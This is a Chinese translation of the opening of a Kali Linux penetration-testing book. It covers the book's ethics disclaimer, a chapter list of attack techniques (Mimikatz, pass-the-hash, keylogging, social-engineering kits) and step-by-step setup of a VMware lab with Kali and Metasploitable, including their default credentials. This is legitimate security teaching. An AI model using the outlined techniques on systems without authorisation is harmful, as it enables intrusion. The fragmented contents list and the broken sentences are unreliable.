# Kali Linux 基础安全测试

使用攻击者会使用的相同策略来测试你的计算机系统安全。

感谢我的家人对我无尽的支持和祈祷，你们真是上帝赐予的礼物！

感谢我在信息安全与网络安全社区的朋友们与我分享知识和时间。还要感谢我们当地书写俱乐部的朋友们（特别是你，Bill！），没有了你们的投入、陪伴和建议，这一切绝不会发生。

> “知彼知己，百战不殆。” —— 孙子

> “看哪，我把你们像羊一样送入狼群；所以你们要像蛇一样机敏，像鸽子一样纯洁。” —— 马福音 10:16 (KJV)

## 关于作者

Daniel W. Dieterle 在 IT 领域工作了 20 多年。在此期间，他在一家计算机支持公司工作，为纽约州北部和整个宾夕尼亚州的数百家公司提供计算机和网络支持。

他还曾在一家财富 500 强企业的数据中心工作，并在一家电气工程公司担任过主管。

在过去的 5 年里，Daniel 完全专注于安全领域。他创建并编写了“CyberArms 安全博客”，他的文章已在国际安全杂志上发表，并被技术实体和媒体引用。

Daniel 协助了许多安全课程和技术书籍，主要基于 Backtrack 和 Kali Linux。

Daniel W. Dieterle

`Cyberarms@live.com`

`Cyberarms.wordpress.com`

## 基础 Metasploit 命令

- 核心命令
- 文件系统命令
- 网络命令
- 系统命令
- 捕捉摄像头视频、截图和声音
- 运行脚本
- 玩转模块 - 从远程系统恢复被删除的文件

## 安装 Veil

## 使用 Veil

## 获取远程 shell

## 第 10 章 – Windows 权限提升

- 绕过 UAC

## 第 11 章 - 数据包捕获与中间人攻击

- 使用 Arpo 进行中间人攻击
- 使用 Urlsnf 查看 URL 信息
- 使用 Driftnet 查看无线数据包
- 在 Metasploit 中进行无线包捕获
- Wireshark
- BeEF 实战

## 第四部分 - 社会工程

## 第 13 章 – 社会工程

- 简介
- 社会工程防御

## 第 14 章 – 社会工程工具

- 使用 SET
- 批量邮件发送
- SET 的 JavaInjector 攻击
- PowerShell 攻击向量
- 使用 SET 进行高级攻击

## 第 15 章 - Subterfuge

- 使用 Subterfuge 进行自动攻击
- 浏览器自动利用

## 第 16 章 – 破解简单的 Hash

- 在线破解 LM Hash
- 在 Kali 中查找 Hash

## 第 17 章 – Hash 渗透

- 使用 Psetec 进行 Hash 渗透
- Hash 渗透工具
- 防御 Hash 渗透攻击

## 第 18 章 – Mimikatz 明文密码

- 加载模块
- 恢复 Hash 和明文密码

## 第 19 章 – Mimikatz 和 Utilman

- Utilman 绕过登录
- 从锁定的工作站恢复密码

## 第 20 章 - Keyscan 和 Lockout Logger

- 使用 Metasploit 键记录
- 使用 Lockout Logger 自动化键记录

## 第 21 章 - HashCat

- 破解 NTLM 密码
- 破解更复杂的密码
- 使用更大的字典文件
- 更高级的破解方法
- 使用 MacChanger
- 在树莓派上安装 Kali

## 第 31 章 – Wi-Fi 渗透

- 使用树莓派进行 Wi-Fi 渗透

## 第 32 章 – 网络防御与结论

- 补丁与更新

利用技术、根据公司管理设定的参数和准则来发现安全问题。

随后，他们向管理层报告发现的结果并协助纠正这些问题。

> 我们不会涵盖流程中的每一个步骤，但将向你展示许多使用的技术，以及如何防御它们。

我认为驱动 Kali 成为商业安全解决方案的首要因素是价格。安全测试工具可能极其昂贵，而 Kali 是免费的！其次，Kali 包含了许多商业安全产品的开源版本，因此你可以在理论上简单地通过使用 Kali 来替代昂贵的程序。

尽管 Kali 确实包含了几个流行软件的免费版本，这些版本可以升级为全功能付费版本并并通过 Kali 直接使用。

Backtrack 和 Kali 之间在工具使用上没有主要区别。Kali 基本上是 Backtrack 第6 版本，或者 Backtrack 的最新版本。但它已经从底层开始完全重新设计，使得软件更新和添加变得简单得多。

在 Backtrack 中，更新某些程序似乎会导致其他程序崩溃；而在 Kali 中，你使用 `kali update` 命令更新所有内容，这能更好地保持系统完整性。

只需运行 `kali update`，它就会下载所包含工具的最新版本。只需提醒一下，单独更新工具可能会破坏 Kali，因此运行 `Kali update` 始终是获取操作系统最新包的最佳方式。

但我承认，我在原始 Backtrack 中喜欢的某些工具在 Kali 中缺失了。这并算不是什么大问题，因为 Kali 中的另一个工具可能在执行相同或类似的功能。再次，如果你需要，你也可以安装其他程序。

除了 Kali 的独立版本和虚拟机实例外，我还在 Raspberry Pi 上使用 Kali - 这是一台只有信用卡大小的基于 ARM 架构的计算机。有了 Kali，你几乎可以在 Pi 上做任何你在全尺寸系统上能做到的事情。在我看来，我将介绍如何将 Pi 作为一个安全测试平台，包括无线网络。

用一台可以放进口袋的电脑来测试网络，那有多酷呢？

尽管 Kali 不可能包含每个人都偏好的所有可能的安全工具，但它包含的内容已足够从头到尾使用 Kali。不要忘记 Kali 不仅仅是一个安全工具，更是一个完整的 Linux 操作系统。因此，如果你喜欢的工具在 Linux 下运行但未包含在内，你可能可以在 Kali 中安装并运行它。

# 道德黑客问题

作为安全测试员的道德黑客基本上就像黑客。他使用黑客最可能使用的工具和技术来测试目标网络的安全性。区别在于，渗透测试员是由公司聘用来测试其安全性的，并在完成后向领导团队展示他们是如何进入的，以及他们可以做些什么来堵住漏洞。

我在使用这些技术时看到的最大问题是伦理和法律。使用 Kali 及其包含工具可以执行的某些安全测试技术在某些地区实际上是非法的。用户在使用 Kali 之前检查他们当地的、州法律和联邦法律是非常关重要的。

此外，你可能会有一些用户在他们没有获得许可的网络上使用 Kali 这一非常强大的工具集。或者他们会尝试在生产网络上使用他们学过但可能尚未掌握的技术。

所有这些都是潜在的法律和伦理问题。

# 本书范围

本书侧重于那些对 Backtrack/Kali 有初级到中级经验的读者。对于想要进入该领域的网络管理员和非安全 IT 专业人员来说，它也是一个很好的工具。

我们将涵盖从 Kali 的基本概述到使用包含的工具对基于 Windows 和 Linux 的系统进行安全测试的所有内容。我们将涵盖社会工程学、Wi-Fi 安全、在 Raspberry Pi 上使用 Kali、破解密码、从侦察到发现与利用的基础计算机安全测试，以及最后是您的系统安全。

# 为什么我要写这本书？

我已经写了多年关于 Backtrack 的技术文章，并协助过多本 Backtrack/Kali 书籍和培训系列。我收到很多关于如何使用 Kali/Backtrack 的问题，因此认为是时候写我自己的初级指南了。

我写这本书的另一个原因是，让更多的人对安全领域感兴趣。

# 免责声明

不要在您没有获得许可的网络上使用 Kali 这一非常强大的工具集。或者不要在生产网络上尝试使用他们学过但可能尚未掌握的技术。

这样做可能会导致您面临法律诉讼。

书中的信息仅用于教育目的。

我没有创建 Kali 的任何工具，Kali Linux、Windows 7 和 Metasploitable 2 是作为虚拟机 (VM) 运行。书中的任何错误、失误完全由我负责，不反映工具开发者的水平。尽管没有提到名称，感谢 Kali 的开发者，你们创造了很棒的工作！

## 参考文献

1. `http://www.csmonitor.com/USA/Military/2011/0509/What-US-cybersecurity-needs-a-few-more-good`
2. `http://www.theguardian.com/technology/2012/jul/10/us-master-hackers-alida`
3. `http://en.wikipedia.org/wiki/List_of_countries_by_number_of_Internet_users`

# 第一部分：安装与基本概述

# 第2章 - 使用 VMWare 安装 Kali

资源 - `http://www.vmware.com/`

- VMware，Kali 安装指南 `http://docs.kali.org/category/installation`，Kali 下载 `http://www.kali.org/downloads/`，Kali 仓库 `http://docs.kali.org/general-use/kali-linux-sources-list-repositories`，Metasploitable 2 `http://sourceforge.net/projects/metasploitable/files/Metasploitable/2/`，微软评估软件 `http://technet.microsoft.com/en-us`

在本节中，我们在主机计算机上使用 VMWare Player 将 Kali Linux、Windows 7 和 Metasploitable 2 设置为虚拟机 (VM)。

使用虚拟机设置我们的测试实验室使得使用 Kali 进行攻击性安全测试变得非常容易。

虚拟机使得在单台计算机上运行多个操作系统成为可能。这样我们不需要满房间的电脑来建立测试和学习环境。我们只需要一台足够强大的运行多个虚拟机会话的机器。

书中我使用了一台带有 8 GB 内存的 Windows 7 Core I5 系统。它有足够的功率同时运行我们所有的实验室操作系统而没有任何问题。

完成后，你应该拥有一个像这样的这样的测试网络：

由于我们将处理存在漏洞的操作系统，请确保您在主机系统和公共互联网之间有一个防火墙路由器（最好是硬件的）。

## 安装 VMware Player & Kali

在 VMware 上安装 Kali 非常简单，因为 Offensive Security 了一个了一个可以直接下载的 Kali VMware 镜像，所以我们不会在上面花费太多时间。

下载并适用于您操作系统版本的 VMware Player。

1. 下载并安装 VMware Player (`https://my.vmware.com/web/vmware/downloads`)



2. 同意许可协议并选择您想要安装的位置，通常默认设置即可。
3. 完成后点击“完成”（Finish）。

下载 Kali VMware 镜像 (`http://www.kali.org/downloads/`) 并将其保存到您想要运行的位置。


（注：通过下载的镜像验证 SHAISUM 是一个好习惯，以确保您拥有的是合法的镜像副本。有很多 MD5/SHA1 免费软件可用）

5. 解压并解包下载的镜像（7-Zip 效果非常好）。



6. 启动 VMware Player。
7. 点击菜单中的“Player”。
8. 然后点击“File”（文件）。
9. 接下来点击“Open”（打开）。
10. 浏览并找到提取出的 Kali `.vmx` 文件，选择它并点击“Open”（打开）。
11. 它现在将出现在 VMware Player 的主界面上。



12. 选中 Kali 虚拟机，点击“编辑虚拟机设置”（Edit Virtual Machine Settings）。
13. 在此处，您可以查看并更改虚拟机的任何设置：
14. 点击“网络适配器”（Network Adapter）：



默认设置为 NAT。这对于我们的工作已经足够了。NAT 意味着每个虚拟机将在小型 NAT 网络中创建，它们之间以及与主机共享该网络；如果需要，它们也可以访问互联网。

每台机器都将获得一个 DHCP IP 地址，这意味着在重启虚拟机时，虚拟机上的 IP 地址可能会发生。

（如果您需要知道 Kali 或 Metasploitable 的 IP 地址，只需在终端窗口中输入 `ifconfig`。在基于 Windows 的虚拟机上，只需在命令提示符中输入 `ipconfig`。）

15. 点击“取消”（cancel）返回 VMware Player 主界面。
16. 现在只需点击“播放虚拟机”（Play Virtual Machine）来启动 Kali。您可能会收到一条消息询问虚拟机是否已移动或复制，只需点击“我复制了它”（I copied it）。
17. 当提示安装 VMware Tools 时，选择稍后安装。
18. 当 Kali 启动时，您将到达登录界面：


19. 点击“其他”（Other），然后使用用户名“root”和密码“toor”（root 的倒序）登录。
20. 随后您将登录 Kali 并看到主桌面：



恭喜你，你完成了！

## 更新 Kali

我们稍后会介绍如何在 Kali 中进行操作，但首先，我们需要将 Kali 更新到最新版本。虚拟机镜像有些旧，因此有很多更新可能需要花很时间下载。

## 打开一个终端窗口


2. 输入 `apt-get update` 并按回车键：

```bash
root@kali:~# apt-get update
Get:1 http://http.kali.org kali/ InRelease [22.0 KB]
Get:2 http://http.kali.org kali/updates InRelease [11.8 KB]
Get:3 http://http.kali.org kali/main Sources [7,535 KB]
Ign http://http.kali.org kali/contrib Translation-en-US
Ign http://http.kali.org kali/contrib Translation-en-en
Ign http://http.kali.org kali/main Translation-en-US
Ign http://http.kali.org kali/main Translation-en-en
Ign http://http.kali.org kali/main/non-free Translation-en-US
Ign http://http.kali.org kali/main/non-free Translation-en-en
```

3. 然后输入 `apt-get dist-upgrade`：

```bash
root@kali:~# apt-get dist-upgrade
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Calculating upgrade... Done
The following packages will be REMOVED:
console-tools icedtea-jre openvas
```

> 在提示需要额外空间时输入“y”并回车。这可能需要一段时间，所以这可能是休息的好时间！

4. 完成后重启。

技术提示：如果您想，可以手动为 Kali 添加额外的源。例如，如果您想要最新的版本，可以为 Kali 添加“Bleeding Edge”源。但这些源带有警告，称未经维护且优先级较低。更多信息请访问：`http://docs.kali.org/general-use/kali-linux-repositories/`。现在 Kali 已安装完成并就绪。我们将在下一节详细查看桌面。

## 安装 VMware Tools

当 Kali 启动时，弹出的窗口询问是否要在操作系统中安装 VMware Tools。这允许虚拟机与 VMware 配合得更好，让您控制视频选项并进行复制粘贴，通常会让运行得更顺畅。当弹出消息时，点击“下载并安装”（Download and Install）：



工具将开始下载：



允许工具安装，完成后点击“关闭”（Close）。

## 安装 Metasploitable 2

Metasploitable 2 是我们将练习利用的故意漏洞操作系统，也以虚拟机的形式提供。和 Kali 虚拟机一样，我们只需要下载 Metasploitable 2 镜像，解压并用 VMware 打开。就这么简单。

1. 下载 Metasploitable 2 (`http://sourceforge.net/projects/metasploitable/files/Metasplo2/`) 并将其放在保存的文件夹中。


## 2. 解压文件

| 文件名 | 日期 | 大小 |
| :--- | :--- | :--- |
| `Metasploitable.nvram` | 5/21/2012 上午1:45 | 9 KB |
| `Metasploitable.vmdk` | 5/21/2012 上午1:46 | 900,864 KB |
| `Metasploitable.vms` | 5/21/2012 上午1:46 | 1 KB |
| `Metasploitable.vmx` | 5/21/2012 上午1:46 | 3 KB |
| `Metasploitable.vmf` | 5/21/2012 上午1:37 | 1 KB |

## 3. 通过 VMware Player 打开虚拟机

启动 VMware Player，在 VMware 中打开 Metasploitable 2。点击“Player”、“File”，然后浏览并选择`Metasploitable.vmx`文件并点击“Open”。

## 4. 确认虚拟机出现在菜单中

它现在将出现在 VMware Player 菜单中：



## 5. 配置网络设置

现在进入 Metasploitable 的“编辑虚拟机设置”，确保网络接口设置为“NAT”：



Metasploitable 2 现在准备可以使用。

> **警告**：Metasploitable 是一个故意留有漏洞的操作系统。切勿在互联网上开放运行。确保在您的主机系统和互联网之间安装了防火墙。

## 6. 启动系统

继续“播放”Metasploitable 系统，如果被问是否移动或复制了它，点击“我复制了它”。

你现在可以看到 Metasploitable 桌面：

```
警告：切勿将此虚拟机暴露在不可信的网络中！
联系：msfdev.metasploit.com
登录 msfadmin:msfadmin 开始

metasploitable login: _
```

## 7. 登录系统

使用屏幕上的凭据登录。

- 登录名：`msfadmin`
- 密码：`msfadmin`

## 8. 获取 IP 地址

在终端提示符处输入`ifconfig`获取 Metasploitable 机器的 IP 地址：

```
msfadmin@metasploitable:~$ ifconfig
eth0 Link encap:Ethernet
inet addr:192.168.198.129
```

在此情况下，IP 地址为`192.168.198.129`。由于我们使用的是 DHCP 地址，在我们关闭系统并重启时，虚拟机的 IP 可能会发生变化。因此，如果开始出现通信问题，检查并验证它们是一个好主意。

我们现在已经有了 Metasploitable 和 Kali 系统。

## Windows 虚拟机

在书中我还使用了 Windows 7 虚拟机（在几个示例中使用了 Windows XP 虚拟机）。您以前可以直接从微软下载（30-90 天）的 Windows 7 企业评估版，但现在看起来大多数链接似乎都指向了您的 Windows 8.1 企业评估版：

http://technet.microsoft.com/en-us/evalcenter/hh699156

所以，如果您想跟随 Windows 7（或 XP）章节，您需要在 VMware Player 中安装一个授权的 Windows 7。

我将不会介绍如何在 VMware 中安装 Windows 7，但基本上您只需要 Windows 7 光盘和密钥，并通过点击“新安装”并指向您的光驱驱动器进行全盘安装。

### 欢迎使用新虚拟机向导

虚拟机就像一台物理计算机；它需要操作系统。你将如何安装客体操作系统？

从以下位置安装：

- 安装光盘：
- DVD RW 驱动器 (D:)

将安装光盘插入此驱动器以继续。

然后像通常一样安装 Windows 7 即可。

完成后，你将拥有一个 Windows 7 虚拟机：



检查它的网络设置，确保它也是使用 NAT 进行联网：

| 设备 | 摘要 |
|---|---|
| 内存 | 1 GB |
| 处理器 | |
| 硬盘 (SCSI) | 40 GB |
| CD/DVD (IDE) | 自动检测 |
| 软盘 | 自动检测 |
| 网络适配器 | 自动检测 |
| USB 控制器 | 已存在 |
| 声卡 | 自动检测 |
| 打印机 | 已存在 |
| 显示器 | 自动检测 |

运行虚拟机并在 Windows 7 命令提示符中运行`ipconfig`以查看其 IP 地址：

```
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有。

C:\Users\Fred>ipconfig

Windows IP 配置

以太网适配器 局域网:

IPv4 地址. . . . . . . . . . . . : 192.168.198.130
```

最后，如果你愿意，在提示时安装适用于 Windows 的 VMware Tools：



这就足够了，你现在在一个微网络中拥有三个虚拟机，你可以用它们来练习和学习基础攻击性安全渗透技术。

## 安装总结

在本节中，我们学习了如何安装 VMware Player 作为虚拟机宿主机。然后我们在宿主机上分别安装了 Kali Linux、Metasploitable 2 和 Windows 7 作为独立的虚拟机。

我们将它们配置为使用相同的网络设置 (NAT)，这样它们就可以相互通信，并在需要时连接到互联网。

在书的其余部分我们将一直使用这种设置。

提醒一下，由于使用了 VMware 的 DHCP，系统的 IP 地址在重启时可能会发生变化。我部分使用这一点是因为在现实世界中你总是会使用不同的目标 IP 地址。但如果你迷路了，可以在虚拟机上运行`ifconfig`(Linux) 或`ipconfig`(Windows) 来查找更改后的 IP 地址。

最后，永远不要在互联网上直接运行 Metasploitable，因为它是刻意留有漏洞的。

## 桌面快速导览

让我们花点时间对 Kali 菜单和界面进行简短导览。

安装时你会注意到的最大特点之一是 Kali 是基于 Debian Linux 的，而不是 Ubuntu（之前的版本是基于 Ubuntu）。如果你习惯了 Backtrack，桌面仍然使用 Gnome，但看起来有不同的视觉效果和感受。

### 顶部菜单栏

我们将从顶部菜单栏开始之旅。

顶部菜单包含应用程序（Applications）菜单，这是访问 Kali 中包含的所有程序的主要入口；位置（Places）菜单允许你在文件系统中进行导航。接下来是 Firefox 网页浏览器，之后是终端（Terminal）提示符的快捷方式。

中间是日期和时间，右侧是音量控制图标、网络图标（你可以在此处查看和编辑网络连接），最后是用户菜单，你可以在此处访问系统设置、切换用户或注销。

### 应用程序菜单

应用程序菜单是 Kali 中的主菜单。



在此菜单下，你可以找到以下菜单：

- 附件（Accessories）菜单包含你在操作系统中预期找到的工具。
- 电子（Electronics）标签包含编程实用程序。
- Kali Linux 是访问安全程序的主菜单。
- 系统工具（System Tools）包含系统管理员工具。

其余都是一目自明的。

### Kali Linux 菜单

对我们最重要的是，Kali Linux 选项是找到大多数安全工具的地方。



快速查看菜单发现，Kali 添加了十大安全工具菜单，以便你更快地使用你喜欢的工具。

Aircrack-ng、Burpsuite、Metasploit、Wireshark 以及其他几个程序现在触手可及。

如果你熟悉原始 Backtrack，不用担心，所有的工具都存在于一个非常类似的系统中。

要导航菜单，只需找到你想要的主题，例如信息收集（Information Gathering），并跟踪菜单找到你需要的：



沿着主菜单你会看到工具按类型排序。Web 应用程序可以在 Web 选项中找到，而密码攻击（Password Attacks）位于密码菜单等。

## 结论

如果你愿意，花几分钟浏览菜单系统直到熟悉它的布局是个好主意。

许多（不是所有）程序都可以从命令提示符运行，Kali 中包含了一些不在菜单中的额外程序。我们将介绍 Kali 自带的工具。我们还将介绍尚未添加但对于任何安全测试人员都非常有用的工具。

# 第二部分 - Metasploit 教程

# 第 3 章 – Metasploit 简介

### 资源

Metasploit 信息

- http://www.offensive-security.com/metasploit-unleashed/Main_Page
- http://www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands

安全公告网站

- http://cve.mitre.org/
- http://technet.microsoft.com/en-us/security/bullet

### 简介

对于安全测试社区，Metasploit（以及 Metasploit Pro）是自以来最酷的东西之一。Metasploit 为你提供了一个完整的、用于安全测试的框架。

